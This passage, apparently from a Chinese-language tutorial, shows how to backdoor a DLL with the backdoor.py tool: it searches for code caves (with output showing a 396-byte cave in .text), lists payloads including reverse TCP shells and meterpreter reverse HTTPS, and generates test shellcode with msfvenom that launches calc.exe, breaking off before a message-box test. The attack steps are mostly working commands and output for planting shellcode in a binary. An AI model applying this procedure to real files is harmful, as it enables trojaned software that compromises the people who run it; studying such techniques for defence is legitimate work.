 2.接着搜索是否存在可用的Code Caves(需要可执行权限的Caves来存放shellcode)

```
python2 backdoor.py -f TestDll.dll -c
```

> <pre><code class="hljs markdown">Looking for caves with a size of 380 bytes (measured as an integer
[*] Looking for caves
We have a winner: .text
-&gt;Begin Cave 0x1074
-&gt;End of Cave 0x1200
Size of Cave (int) 396
SizeOfRawData 0xe00
PointerToRawData 0x400
End of Raw Data: 0x1200
**************************************************
No section
-&gt;Begin Cave 0x1c15
-&gt;End of Cave 0x1e0e
Size of Cave (int) 505
**************************************************
[*] Total of 2 caves found
</code></pre>

这里在.text(代码段)存在一个396字节大小区域.

3.获取可用的payload

`./backdoor.py -f ./exeTest/TestDll.dll -s`

> <pre><code class="hljs nginx">The following WinIntelPE32s are available: (use -s)
  cave_miner_inline
  iat_reverse_tcp_inline
  iat_reverse_tcp_inline_threaded
  iat_reverse_tcp_stager_threaded
  iat_user_supplied_shellcode_threaded
  meterpreter_reverse_https_threaded
  reverse_shell_tcp_inline
  reverse_tcp_stager_threaded
  user_supplied_shellcode_threaded
</code></pre>

这里我们采取最后一个选项:

`user_supplied_shellcode_threaded`

> 自定义payload，payload可通过msf生成

先生成测试的shellcode:

calc调用测试 193bytes：

`msfvenom -p windows/exec CMD=calc.exe -f raw &gt; calc.bin`

msg弹框测试 272bytes:
